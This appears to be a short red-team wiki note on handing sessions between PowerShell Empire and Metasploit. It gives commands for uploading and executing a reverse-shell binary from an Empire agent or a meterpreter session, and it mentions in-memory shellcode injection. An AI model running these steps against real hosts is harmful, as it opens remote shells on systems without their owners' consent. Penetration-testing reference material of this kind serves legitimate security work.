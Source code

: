 # Switching Between Empire And Metasploit

When switching between [[Metasploit]] and [[Empire]], using one of the [[MSFVenom-Payloads]]

## Caveats
In PowerShell Empire version 2.4, it was possible to use a meterpreter listener and the injectshellcode module to inject a meterpreter shellcode directly in memory from PowerShell. However, in the newest version (2.5) this code is unfortunately broken.

## Empire to Metasploit
With `multi/handler` waiting on the same `LHOST` and `LPORT` configuration with  one of the [[MSFVenom-Payloads]] 
```powershell
Empire: <AgentName> > upload /path/to/reverse/shell.exe
Empire: <AgentName> > shell /path/to/reverse/shell.exe
```

## Metasploit to Empire
Either with [[Meterpreter-Commands]]
```powershell
meterpreter > upload /path/to/reverse/shell.exe
shell
```
Or regular builtin techniques for [[File-Transfers]] or [[Windows-File-Transfers]].